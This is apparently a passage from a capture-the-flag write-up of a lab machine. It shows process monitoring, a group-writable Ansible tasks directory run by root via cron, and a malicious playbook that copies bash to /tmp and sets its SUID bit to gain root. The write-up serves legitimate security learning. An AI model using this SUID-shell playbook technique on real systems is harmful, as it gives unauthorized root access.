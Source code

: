 After running it for a few minutes, I notice the following processes running as `root` indicating that they are being run on a CRON schedule.

```bash
2023/07/07 22:10:01 CMD: UID=0     PID=4069   | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
2023/07/07 22:10:01 CMD: UID=0     PID=4074   | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml
2023/07/07 22:10:01 CMD: UID=0     PID=4076   |
2023/07/07 22:10:01 CMD: UID=0     PID=4077   |
2023/07/07 22:10:02 CMD: UID=0     PID=4078   |
2023/07/07 22:10:02 CMD: UID=0     PID=4080   | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml
2023/07/07 22:10:02 CMD: UID=0     PID=4081   | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml
```

More particularly this is the exact command:

```bash
/bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
```

This shows that the root user is using [ansible-parallel](https://git.afpy.org/mdk/ansible-parallel) to execute any playbook in the `/opt/automation/tasks` directory.

Ansible is a tool that is pretty dear to my heart. It’s a powerful and flexible tool for automating IT tasks and managing infrastructure at scale, making it easier to maintain consistency across multiple servers and environments. It uses a declarative language called YAML to describe configuration changes and tasks, and can be used to manage systems running on a wide range of operating systems. And a playbook is Ansible’s primary way to describe the configuration, deployment and orchestration of different tasks.

Checking the permission of the `/opt/automation/tasks` directory, it seems that only the root user and the staff user group have read and write access.

```bash
phil@inject:/dev/shm$ ls -alh /opt/automation/tasks
total 12K
drwxrwxr-x 2 root staff 4.0K Jul  7 21:50 .
drwxr-xr-x 3 root root  4.0K Oct 20  2022 ..
-rw-r--r-- 1 root root   150 Jul  7 21:50 playbook_1.yml

phil@inject:/dev/shm$ ls -alh /opt/automation/
total 12K
drwxr-xr-x 3 root root  4.0K Oct 20  2022 .
drwxr-xr-x 3 root root  4.0K Oct 20  2022 ..
drwxrwxr-x 2 root staff 4.0K Jul  7 21:50 tasks
```

Fortunately, the user `phil` is a member of the user group staff .

The simplest way to run some command via Ansible is with the built-in [Shell module](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/shell_module.html). I’ll make a file that’s as simple as:

```bash
- hosts: localhost
  tasks:
    - shell: |
        cp /bin/bash /tmp/bash
        chmod +x /tmp/bash
        chmod u+s /tmp/bash
      become: true
```
